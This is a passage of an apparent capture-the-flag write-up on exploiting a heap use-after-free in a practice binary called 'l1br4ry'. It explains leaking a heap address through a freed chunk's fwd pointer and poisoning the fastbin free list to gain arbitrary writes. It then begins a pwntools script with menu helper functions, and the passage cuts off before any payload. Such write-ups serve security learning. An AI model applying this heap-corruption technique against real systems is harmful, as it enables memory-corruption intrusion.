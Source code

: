 ```
> d

Main menu
---------------------------
  0: Your favorite:
---------------------------
a: add a new one
q: exit
>
```

It still tried to print the original favorite book, even though it's deleted. Currently no text shows up, because the `fwd` pointer of the free chunk points to `NULL`, as it's the last (and only) chunk on the free list. However, it should be clear from here
that we can leak a heap address (the `fwd` pointer of a free chunk).

Remember how the program allowed us to edit any book? Well it even allows us to edit the favorite book, which means we can overwrite the `fwd` pointer to be whatever we want, adding a new chunk to the free list. We will use this to put an already allocated chunk on the free list. Then, we can allocate the `book_array` in the "fake" chunk we just added to the free list. Since we control the fake chunk, we control the memory where the book_array is allocated, and we control all the pointers in the book array. We can set one of them to point to the memory we want to write to, and then setting the title for that "book" will actually write to memory where we set the pointer to.

Why not just make the fake chunk point to a GOT address directly and overwrite a GOT address? Well, when a fastbin chunk is allocated, glibc checks to make sure the size of the chunk matches the index of the bin it's getting the chunk from. Since we don't control any data around any of the GOT addresses, we can't create a chunk with the right size, and when we try to allocate that chunk we'll fail an assertion.

## Getting a heap leak

As mentioned above, we can leak a heap address by deleting the favorite book and then looking at the `fwd` pointer printed out in the book list. We need to make sure the favorite book is not the last book on the list. In order to do that, all we have to do is add two books, make book one the favorite, then free book two, and then free book one. Book one will then point to another chunk, and printing the book list will leak memory:

``` python
#!/usr/bin/env python2

from pwn import *

context(arch="amd64", os="linux")

p = process('./l1br4ry')
# gdb.attach(p, '''
# ''')

def add_book(title, description, rating):
    p.sendline('a')
    p.sendline(title)
    p.sendline(str(rating))
    p.sendline(description)

def favorite_book(index):
    p.sendline(str(index))
    p.sendline('f')

def delete_book(index):
    p.sendline(str(index))
    p.sendline('d')

def edit_title(index, title, description, rating):
    p.sendline(str(index))
```